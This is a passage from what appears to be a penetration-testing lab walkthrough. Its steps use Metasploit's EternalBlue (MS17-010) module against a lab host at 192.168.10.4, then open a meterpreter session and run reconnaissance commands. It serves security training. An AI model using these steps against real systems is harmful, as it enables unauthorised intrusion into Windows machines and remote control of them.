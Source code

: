 4. To exploit the vulnerability, we use the Metasploit Framework:
```bash
$msfconsole
```

5. Choose an exploit:
```bash
msf6> search ms17-010

msf6> use exploit/windows/smb/ms17_010_eternalblue
```
6. Specify the address of the remote machine:
```bash
msf6> set RHOSTS 192.168.10.4
```
7. Run the exploit:
```bash
msf6> run
```
###### After successfully exploiting the vulnerability, we gain access to host management using meterpreter, a C2 agent that provides many convenient tools for executing commands and various code on a remote host, downloading and uploading files, using the host as a proxy server and, most importantly, providing msf the ability to execute various local modules that automate elevation and post-exploitation on the machine.

8. Let's get acquainted with the main features of meterpreter:
```bash
meterpreter>help
```
9. Collect information about the system and the current user:
```bash
meterpreter> sysinfo

meterpreter> getuid
```
![Screenshot](12.4/ksnip_20230705-184752.png)

# Level 8 — Practice "Elevation of privileges on Windows local network nodes"
